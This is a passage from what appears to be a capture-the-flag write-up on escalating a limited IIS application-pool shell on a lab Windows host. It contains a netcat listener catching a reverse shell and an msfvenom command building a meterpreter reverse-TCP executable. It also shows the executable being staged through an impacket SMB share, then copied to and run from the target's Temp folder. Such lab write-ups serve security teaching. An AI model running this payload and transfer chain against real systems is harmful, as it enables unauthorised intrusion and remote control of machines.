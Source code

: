 ```bash
root@kali:~# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.7.59] from (UNKNOWN) [10.10.167.66] 49241
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

While this gave me a shell on the host, it was about as limited as it could be. My goal became to escalate this shell to something a bit stabler. Preferably a meterpreter shell. With this in mind I decided to craft a new executable reverse shell that I could catch with the `multi/handler`. I started a listener in msfconsole on port 4444 in preparation.

```bash
root@kali:~/ctf/transfer# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.7.59 LPORT=4444 -f exe -o hello.exe
```

With an exploit ready, I decided to attempt to transfer it using impacket's smb server.

```bash
root@kali:~/ctf/transfer# impacket-smbserver -smb2support TX $PWD
```

```powershell
dir \\10.10.7.59\TX\
c:\windows\system32\inetsrv>dir \\10.10.7.59\TX\
 Volume in drive \\10.10.7.59\TX has no label.
 Volume Serial Number is ABCD-EFAA
 Directory of \\10.10.7.59\TX
11/18/2020  02:38 PM            73,802 hello.exe
               1 File(s)         73,802 bytes
               0 Dir(s)  18,391,148,419,302,293,504 bytes free
c:\windows\system32\inetsrv>pwd
cd c:\windows\Temp\
c:\windows\system32\inetsrv>cd c:\windows\Temp\
dir
c:\Windows\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Windows\Temp
11/18/2020  02:44 PM    <DIR>          .
11/18/2020  02:44 PM    <DIR>          ..
08/06/2019  01:13 PM             8,795 Amazon_SSM_Agent_20190806141239.log
08/06/2019  01:13 PM           181,468 Amazon_SSM_Agent_20190806141239_000_AmazonSSMAgentMSI.log
08/06/2019  01:13 PM             1,206 cleanup.txt
08/06/2019  01:13 PM               421 cmdout
08/06/2019  01:11 PM                 0 DMI2EBC.tmp
08/03/2019  09:43 AM                 0 DMI4D21.tmp
08/06/2019  01:12 PM             8,743 EC2ConfigService_20190806141221.log
08/06/2019  01:12 PM           292,438 EC2ConfigService_20190806141221_000_WiXEC2ConfigSetup_64.log
08/06/2019  01:13 PM                21 stage1-complete.txt
08/06/2019  01:13 PM            28,495 stage1.txt
05/12/2019  08:03 PM           113,328 svcexec.exe
08/06/2019  01:13 PM                67 tmp.dat
              12 File(s)        634,982 bytes
               2 Dir(s)  39,108,558,848 bytes free
copy \\10.10.7.59\TX\hello.exe hello.exe
c:\Windows\Temp>copy \\10.10.7.59\TX\hello.exe hello.exe
        1 file(s) copied.
.\hello.exe
```
